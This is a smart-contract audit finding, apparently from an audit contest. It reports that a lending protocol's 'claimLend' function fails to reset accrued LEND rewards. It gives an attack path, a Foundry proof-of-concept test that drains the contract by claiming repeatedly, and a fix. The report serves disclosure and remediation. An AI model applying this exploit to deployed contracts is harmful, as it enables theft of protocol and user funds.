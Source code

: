# LEND Token Double-Claiming Vulnerability

## Summary
Missing accrued balance reset will cause a critical fund drain vulnerability for the protocol as users will be able to repeatedly claim the same LEND rewards multiple times.

## Root Cause
In the `claimLend` function transfers LEND tokens to users based on their accrued rewards but fails to reset the `lendAccrued` value in `lendStorage` after the transfer.

**Reference**: [CoreRouter.sol#L402](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L402)

## Attack Path
1. User accrues LEND rewards by supplying/borrowing assets
2. User calls `coreRouter.claimLend()` to claim their rewards
3. CoreRouter transfers LEND tokens to the user
4. CoreRouter does not reset `lendAccrued[user]` value in storage
5. User calls `coreRouter.claimLend()` again
6. CoreRouter reads the same unreset accrued value and transfers LEND tokens again
7. Steps 5-6 can be repeated until the CoreRouter's LEND balance is drained

## Impact
The protocol suffers a loss of LEND tokens equal to (number of claims - 1) * accrued rewards per user. This can potentially drain the entire LEND token balance of the CoreRouter contract, stealing tokens that should be distributed to other users.

## Proof of Concept
Using this test in `test/mocks/TestLendAccrual.t.sol`:

```solidity
function test_repeated_claims_drain_lend_tokens() public {  
    // Supply tokens to start accruing LEND  
    uint256 supplyAmount = 1000e18;  
    (, address lToken) = _supply(supplyAmount, user1);  

    // Advance time to accrue rewards  
    vm.warp(block.timestamp + 1 days);  
    vm.roll(block.number + 1000);  
      
    // Setup for claiming  
    address[] memory holders = new address[](1);  
    holders[0] = user1;  
    LToken[] memory lTokenArray = new LToken[](1);  
    lTokenArray[0] = LToken(lToken);  
      
    // Check accrued LEND before claims  
    uint256 accrued = lendStorage.lendAccrued(user1);  
    assertGt(accrued, 0, "User should have accrued LEND");  
      
    // Get LEND token address and balances  
    address lendToken = lendtroller.getLendAddress();  
    uint256 initialUserBalance = IERC20(lendToken).balanceOf(user1);  
    uint256 initialProtocolBalance = IERC20(lendToken).balanceOf(address(coreRouter));  
      
    console2.log("Initial Protocol LEND Balance:", initialProtocolBalance);  
    console2.log("User's Accrued LEND:", accrued);  
      
    // Calculate how many times we can claim based on protocol balance  
    uint256 maxClaims = initialProtocolBalance / accrued;  
    uint256 claimCount = 10; // We'll try to claim 10 times  
      
    if (claimCount > maxClaims) {  
        claimCount = maxClaims;  
    }  
      
    console2.log("Will perform claims:", claimCount);  
      
    // Repeatedly claim LEND tokens  
    for (uint256 i = 0; i < claimCount; i++) {  
        vm.prank(user1);  
        coreRouter.claimLend(holders, lTokenArray, false, true);  
    }  
      
    // Check final balances  
    uint256 finalUserBalance = IERC20(lendToken).balanceOf(user1);  
    uint256 finalProtocolBalance = IERC20(lendToken).balanceOf(address(coreRouter));  
      
    // Total claimed should be original accrual times the number of claims  
    uint256 expectedClaimed = accrued * claimCount;  
    assertEq(  
        finalUserBalance - initialUserBalance,   
        expectedClaimed,   
        "Vulnerability: User claimed multiple times the accrued amount"  
    );  
      
    // Protocol balance should be reduced by the same amount  
    assertEq(  
        initialProtocolBalance - finalProtocolBalance,   
        expectedClaimed,   
        "Protocol lost multiple times the accrued amount"  
    );  
      
    console2.log("Final Protocol LEND Balance:", finalProtocolBalance);  
    console2.log("User gained LEND:", finalUserBalance - initialUserBalance);  
}
```

## Recommended Mitigation
The fix requires adding a line to reset the accrued LEND balance after transfer in the `claimLend` function:

```solidity
function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {  
    LendtrollerInterfaceV2(lendtroller).claimLend(address(this));  

    // Distribution logic...  

    for (uint256 j = 0; j < holders.length;) {  
        uint256 accrued = lendStorage.lendAccrued(holders[j]);  
        if (accrued > 0) {  
            // Transfer LEND tokens  
            uint256 remaining = grantLendInternal(holders[j], accrued);  
              
            // FIX: Reset accrued balance to prevent double claiming  
            lendStorage.setLendAccrued(holders[j], remaining);  
        }
        unchecked {  
            ++j;  
        }
    }  
}